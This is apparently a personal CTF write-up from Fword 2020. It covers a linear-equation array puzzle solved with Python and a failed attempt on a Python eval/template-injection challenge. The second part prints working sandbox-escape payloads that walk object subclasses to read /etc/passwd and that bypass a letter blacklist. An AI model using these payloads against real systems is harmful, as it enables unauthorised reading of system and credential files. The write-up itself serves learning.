 ```yaml
---
title: Fword 2020 CTF write-up
date: 2020-09-01T15:11:34.019022
description: 'Stuff I learnt from the fwords.wtf 2020 ctf.'
tags: ['ctf', 'security']
thumbnail: './fwords_score.png'
---
```


![Final leaderboard](./fwords_score.png)

This was one of the first CTFs I've competed in, and I'm pretty happy with the performance we obtained. I worked on two problems, one which I didn't get in the end. But it was still a great learning experience. I definitely got carried by the other people in my team, who did really well in the `pwn` section.

## Problem 1 - Secret Array

**TL;DR**

- use `pwntools` to interface with the IP and port, not netcat, as there is no easy way to pipe python output to netcat
- **DON'T name your file something generic like `pwn.py` or `numbers.py`, as those are internally used by `pwntools`, and will result in failures DX**
- don't overengineer your answers, occam's razor
- installation steps:

```bash
virtualenv venv
. venv/bin/activate
pip install pwntools
```

The problem was hosted in a server, and netcat was used to access it.
`nc secretarray.fword.wtf 1337`

The problem stated that there were 1337 unknown numbers in an array, and we were allowed to query the server with 2 valid indices, which would return the sum of the two numbers in the array at those indices. We were allowed to query the server 1337 times.

At first glance, I immediately felt like this would be a great opportunity to use `np.linalg.solve`, as the problem was essentially a really big simultaneous equations problem, so at first I made arbitrary guesses of the form:

```python
for i in range(1337):
    if i == 1336:
        print(f"0 1336")
    else:
        print(f"{i} {i+1}")
```

This yielded a list of 1337 numbers, which I turned into a numpy array. I also converted my guesses into a numpy matrix like so:

```python
matrix = np.zeros((1337,1337))
for i in range(1337):

    if i == 1336:
        matrix[i,i] = 1
        matrix[i,0] = 1
    else:
        matrix[i,i] = 1
        matrix[i,i+1] = 1

matrix = matrix.astype('float64')
ans = np.linalg.solve(matrix, res)
for a in ans:
    print(a)
```

However, I immediately realised this wasn't going to work when I was getting floats as my answers...

So instead, I decided to rethink my strategy, since the simulataneous equations were quite simple:

- Let every element in the array be labelled like $a_{i}, i \in 1,2,...,N, \text{where } N=1337$.
- Thinking for a simple case, where $N=3$, we see that for the following chosen indices:

$$
\begin{cases}
a_0 + a_1 = b_0 \qquad (1)\\
a_0 + a_2 = b_1 \qquad (2)\\
a_1 + a_2 = b_2 \qquad (3)
\end{cases}
$$

- We can simply solve these by computing $(1)-(2) \equiv a_1 - a_2 = b_0 - b_1$, adding this to $(3)$, we obtain

$$
\begin{cases}
a_0 = b_0 - a_1 \\
a_1 = \frac{b_0 - b_1 + b_2}{2} \\
a_2 = b_0 - a_2
\end{cases}
$$

By solving this simplest case, we get a values for $a_0, a_1, a_2$ and we can easily extend this scenario to $N=4$ by taking the 4th simultaneous equation to be

$$
\begin{aligned}
a_2 + a_3 &= b_3 \\
\therefore a_3 &= b_3 - a_2
\end{aligned}
$$

So I just coded this:

```python
with open('output.txt','r') as f:
    data = f.readlines()

data = [int(d[:-1]) for d in data] #strip newline

# solve the first 3
answers = [0 for _ in range(1337)]

answers[1] = (data[0]-data[1]+data[2])/2
answers[0] = data[0]-answers[1]
answers[2] = data[2]-answers[1]

for i in range(3,1337):
    answers[i] = data[i]-answers[i-1]

# checking
assert(answers[0]+answers[1] == data[0])
assert(answers[0]+answers[2] == data[1])
assert(answers[1]+answers[2] == data[2])
for i in range(3,1337):
    assert(answers[i-1]+answers[i] == data[i])

print("DONE "+" ".join(str(a) for a in answers))
```

Now, when I was trying to get `pwntools` to work, I had made the moronically called the file `pwn.py` which was an internal file used in `pwntools`, so it failed, I eventually got my friend to run the code above and he got the flag :S.

## Problem 2 - Directory Manager

This one was really hard and involved a Server Side Template Injection in python. I didn't get it this time, but here are some things I found out that might prove useful in later CTFs.

### Recon

I just kept trying different inputs, here are some examples of what I got

```
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir
<built-in function dir>
```

Some more examples include:

```
dir: <built-in function dir>
file: <type 'file'>
exit: Use exit() or Ctrl-D (i.e. EOF) to exit
anything where the second letter is an s: Thank you !
[]: []
['hello']: []
['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']: ['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']
```

Ultimately, from the output interpretations of `dir` and `file`, I was pretty sure python code was executing. However, interestingly any input that contained the letter 's' would fail with `Thank you !`.

### Intro to SSTI

In a previous challenge, I performed Server Side Template Injection (SSTI) and remote code execution (RCE) through a Flask template input by exploiting the fact that `file` is a built in type, and that there were certain builtin class functions that let you go from any one class to any other class.

```python
>>> [].__class__
<type 'list'>
```

Here, we can abuse the `.__class__` method to obtain a reference to the list object type.

```python
>>> [].__class__.__base__
<type 'object'>
```

We can go further and obtain the object class like so.

```python
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

We can actually find the `file` type, by taking the 40th element in this list:

```python
>>> [].__class__.__base__.__subclasses__()[40]
<type 'file'>
```

And finally, we can use this type as a function to read and print a file.

```python
>>> [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n'
```

### no 's'

Now you can probably see why banning the letter 's' would be problematic, as the letter 's' appears in all the builtin functions we used to grab the file type.

However, fear not, as security engineers always find a way!

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[dir()]
[['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__warningregistry__', 'conn', 'inp', 'isallowed', 'ldap']]
```

I found I was able to evaluate the `dir()` function if it was contained in a list, and lo and behold! the first element of this list has the letter 's' in it~

I grabbed this 's' to see if it would pass whatever black listing was happening behind the scenes:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir()[0][9]
s
```

Bingo. Now, I just used the string `format` function to craft the payload shown in the previous section:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[eval('[].__cla{0}{0}__.__ba{0}e__.__{0}ubcla{0}{0}e{0}__()'.format(dir()[0][9]))[40]('/etc/pa{0}{0}wd'.format(dir()[0][9])).read()]
['root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n']
```

Although I was able to read `/etc/passwd`, as well as some other common files like `.bashrc`, without access to the `os` library, I was unnable to get a list of the directory, to know which file to target.

### Failures

I tried a lot of different things, here's how they worked out:

- I can `eval` but I am blacklisted from running `exec`, or running `eval(compile())`, which means I cannot import.
- I can use `__import__(os).listdirs()` but this is blocked from running, and black listed.
  Really, I spent a few hours testing random directories and possible file names for the flag, but without access to `ls`, I am really at a loss for knowing which file to target. Hence I was unable to get the flag in the end.
